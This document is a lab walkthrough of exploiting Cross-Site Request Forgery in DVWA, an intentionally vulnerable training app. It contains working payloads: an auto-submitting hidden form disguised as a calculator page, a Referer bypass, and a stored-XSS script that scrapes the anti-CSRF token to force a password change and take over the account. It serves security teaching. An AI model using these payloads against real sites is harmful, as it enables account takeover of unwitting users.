

# Cross-Site Request Forgery (CSRF): A Complete Walkthrough

**Author:** Ibrahim Aliaminu Olamide  
**Target Environment:** DVWA (Damn Vulnerable Web App) on Kali Linux  

This guide provides a step-by-step walkthrough for understanding and exploiting Cross-Site Request Forgery (CSRF) across multiple security levels. It is designed to be highly readable, explaining the core concepts without overwhelming technical jargon, so anyone can follow along and replicate the exploits.

---

##  Directory Structure
* `EVIL_SCRIPT.txt` — The external HTML payload used for Low and Medium exploitation.
* `hard_script.txt` — The minified JavaScript payload used for the High-level vulnerability chain.
* `CSRF_SCREENSHOTS/LOW.png` — Proof of execution for the unauthenticated GET request.
* `CSRF_SCREENSHOTS/MEDIUM.png` — Proof of the Referer header bypass.
* `CSRF_SCREENSHOTS/Hard.png` — Proof of the Stored XSS + CSRF vulnerability chain.

---

##  What is CSRF? (The "Forged Letter" Concept)
Imagine you are at a bank. You hand the teller a withdrawal slip. The teller recognizes your face, accepts the slip, and hands you the cash. 

But what if a pickpocket slipped a forged withdrawal slip into your stack of papers right before you walked up to the counter? The teller still recognizes your face, assumes you willingly handed them that specific slip, and gives the pickpocket your money.

This is **Cross-Site Request Forgery (CSRF)**. 

Web browsers use "Cookies" to keep you logged into websites. If an attacker can trick your browser into visiting a malicious link or opening a malicious file, your browser automatically attaches your login Cookie to the request. The website looks at the Cookie, says, *"Oh, it's the authorized user!"* and executes the attacker's hidden command—like changing your password.

---

##  Level 1: Low Security (The Open Door)

### The Vulnerability
In the Low security level, the web application processes password changes simply by reading the web address (a `GET` request). It only checks if the user's login cookie is valid. It never asks for proof that the user *intended* to make the change.

### Step-by-Step Execution
1. **Set the Stage:** Log into DVWA and set the Security Level to **Low**.
2. **Create the Weapon:** Create a file named `EVIL_SCRIPT.txt` (and save or run it as an `.html` file). 
3. **Write the Payload:** Paste the following HTML into the file. This creates an invisible web form that points directly at the DVWA password-change URL.

```html
<html>
  <body>
    <h1>Loading your free calculator dashboard...</h1>
    <!-- The hidden form pointing at the target server -->
    <form action="[http://127.0.0.1:42001/vulnerabilities/csrf/](http://127.0.0.1:42001/vulnerabilities/csrf/)">
      <input type="hidden" name="password_new" value="pwned_low">
      <input type="hidden" name="password_conf" value="pwned_low">
      <input type="hidden" name="Change" value="Change">
    </form>
    <!-- The JavaScript trigger that clicks "Submit" instantly -->
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

---

## Level 2: Medium Security (The Fake ID Check)

### The Vulnerability
The developer realized they couldn't just trust the cookie. They added a check for the **Referer Header**. When you click a link, your browser sends a hidden note (the Referer) telling the server exactly what website you came from. The server is now programmed to reject the password change if the Referer doesn't say `127.0.0.1` (the trusted server name).

### Step-by-Step Execution
1. **Set the Stage:** Change your DVWA Security Level to **Medium**.
2. **The Bypass Strategy:** We bypass this by exploiting how browsers handle local files. When you open an HTML file directly from your hard drive, modern web browsers strip away the Referer header completely for user privacy.
3. **Trigger the Attack:** Simply open the exact same `EVIL_SCRIPT.txt` file from the Low level while logged into DVWA.
4. **The Result:** Because the Referer header is totally empty, the poorly written code on the server gets confused, fails to block the request, and lets the password change slip through anyway. 

> *Note: If the server was coded strictly, an attacker could still bypass this by hosting the payload on a malicious web server inside a folder named `127.0.0.1` to spoof the Referer.*




##  Level 3: High Security (The Inside Job)

### The Defense: Anti-CSRF Tokens
The developer finally implements the industry standard defense: **Anti-CSRF Tokens**. 
The server now generates a unique, random string of text (a token) every time the password page is loaded. To change a password, the submission form must include that exact token. 

Our external `EVIL_SCRIPT.txt` is now useless. It cannot guess the random token, and browser security rules (Same-Origin Policy) prevent external sites from reading data on the DVWA page.

### The Exploit: Vulnerability Chaining
To bypass this, we must execute an "inside job." We will chain the CSRF attack with a completely different vulnerability: **Stored Cross-Site Scripting (XSS)**. By injecting a malicious JavaScript robot directly into the DVWA Guestbook, our code runs *inside* the trusted domain, allowing it to read the secret token.

### Step-by-Step Execution

**Phase 1: Bypassing Limitations**
1. **Lower Shields Temporarily:** Set DVWA Security to **Low** so we can plant our script without the Guestbook's own defenses blocking it.
2. **Bypass the HTML Limit:** Go to **XSS (Stored)**. The text box restricts inputs to 50 characters. Right-click the Message box, select **Inspect**, open the browser **Console**, and run this command to unlock the box:

   ```javascript

  document.querySelector('textarea[name="mtxMessage"]').removeAttribute('maxlength');


   Bypass Database Truncation: The backend database will also crash (White Page of Death) if the script is too long. We must "minify" our payload to squeeze it in.

Phase 2: Planting the Spy

Enter your name in the Name field.

Paste this exact minified payload (hard_script.txt) into the unlocked Message box:

HTML
<script>fetch('/vulnerabilities/csrf/').then(r=>r.text()).then(t=>{fetch('/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change&user_token='+t.match(/user_token' value='(.*?)'/)[1])})</script>
Click Sign Guestbook.

Phase 3: The Heist

Raise Shields: Go back to DVWA Security and set it to High. (The CSRF tokens are now active).

Trigger the Trap: Navigate to XSS (Stored).

The Result: The page loads normally. However, silently in the background, your injected script wakes up, reads the HTML of the page, extracts the secret user_token, and instantly fires the password change request.

Log out and log back in with the password hacked to verify the account takeover.